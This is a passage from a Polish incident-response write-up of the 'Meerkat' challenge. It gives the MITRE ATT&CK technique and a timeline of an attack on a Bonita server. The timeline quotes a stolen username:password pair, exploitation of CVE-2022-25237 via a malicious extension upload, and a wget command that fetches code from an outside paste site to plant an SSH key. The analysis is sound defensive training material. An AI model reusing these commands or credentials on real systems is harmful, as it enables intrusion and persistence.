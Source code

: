 Ostatnie pytanie dotyczy ID użytej metody z MITRE ATT&CK.

![meerkat_mitre](/images/meerkat_mitre.png)

**Odpowiedź: T1098.004**

Na koniec stwórzmy timeline, aby podsumować działania TA.

|     Data i godzina      | Opis                                                                                                                                                                                                                                                          |
| :---------------------: | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 19/01/2023 15:31:12 UTC | Atakujący (156.146.62.213) uzyskuje dostęp do strony głównej Bonita                                                                                                                                                                                           |
| 19/01/2023 15:31:27 UTC | Pierwsza, nieudana próba logowania                                                                                                                                                                                                                            |
| 19/01/2023 15:35:04 UTC | Pierwsze udane logowanie przez TA - użyta kombinacja username:password `seb.broom@forela[.]co.uk:g0vernm3nt`                                                                                                                                                  |
| 19/01/2023 15:35:04 UTC | Skuteczne użycie eksploita przez TA - podatność CVE-2022-25237. Upload złośliwego rozszerzenia `rce_extension_api.zip`                                                                                                                                        |
| 19/01/2023 15:35:05 UTC | Zdalne wykonanie polecenia `whoami` na serwerze ofiary. Opdowiedź - root                                                                                                                                                                                      |
| 19/01/2023 15:38:38 UTC | TA wykonuje zdalne polecenie `wget https://pastes[.]io/raw/bx5gcr0et8` na serwerze ofiary. Kod zawarty na stronie jest wykonywany i utworzony zostaje nowy klucz publiczny SSH  w pliku `authorized_keys`. Persystencja zdalnego dostępu do serwera przez TA. |
